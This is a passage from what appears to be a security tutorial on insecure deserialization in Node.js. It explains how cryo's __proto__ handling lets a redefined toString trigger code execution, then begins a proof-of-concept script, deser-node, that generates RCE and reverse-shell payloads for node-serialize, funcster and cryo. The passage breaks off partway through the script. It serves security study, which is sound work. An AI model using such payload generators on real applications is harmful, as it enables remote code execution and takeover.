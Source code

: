 ```js
}
```

During deserialization, cryo would redefine the `toString()` function, via `__proto__` accessor. If later on the application try calling the `toString()` method of the deserialized object, the RCE function would be called instead.
Of course, we can redefine whatever object method we like, `toString` is just an example.

#### Generate payloads dynamically

As we've seen how the process works, it's time to create our payloads. I order to do that, the following script, named **desert-node**, can be used to generate different payloads for the libraries we've just seen. The tool can be also downloaded [here](https://github.com/klezVirus/deser-node).

```js
/**
* This script provides a simple cli to generate payloads for:
* - node-serialize
* - funcster
* - cryo
*
* It's not meant to be a complete tool, but just a proof of concept
**/
var fs = require('fs');

var argv = require('yargs')
    .usage('Usage: $0 -f [file] [options]')
    .alias('f', 'file')
    .alias('m', 'mode')
    .alias('s', 'serializer')
    .alias('v', 'vector')
    .alias('c', 'command')
    .alias('H', 'lhost')
    .alias('P', 'lport')
    .alias('t', 'target')
    .alias('p', 'cryoprototype')
    .alias('h', 'help')
    .choices('s', [, 'ns', 'fstr', 'cryo'])
    .choices('m', ['serialize', 'deserialize'])
    .choices('v', ['rce', 'rshell'])
    .choices('t', ['linux', 'windows'])
    .default('t', 'windows')
    .default('p', 'toString')
    .default('s', 'ns')
    .default('m', 'serialize')
    .describe('f','Input file')
    .describe('m','Operational mode, may be serialize or deserialize')
    .describe('s','The serializer module to use')
    .describe('v','The vector is command exe or reverse shell')
    .describe('c','The command to execute (-v rce must be used)')
    .describe('e','Charencode the payload (not implemented yet)')
    .describe('H','Local listener IP (-v rshell must be used)')
    .describe('P','Local listener PORT (-v rshell must be used)')
    .describe('t','Target machine OS, may be Win or Linux')
    .demandOption(['f'])
    .showHelpOnFail(false, "Specify --help for available options")
    .argv;

var payload;

// Serialize function wrap
function serialize(serializer, object) {
    if (serializer == "fstr") {
        var serialize = require('funcster');
        return JSON.stringify(serialize.deepSerialize(object),null,0);
```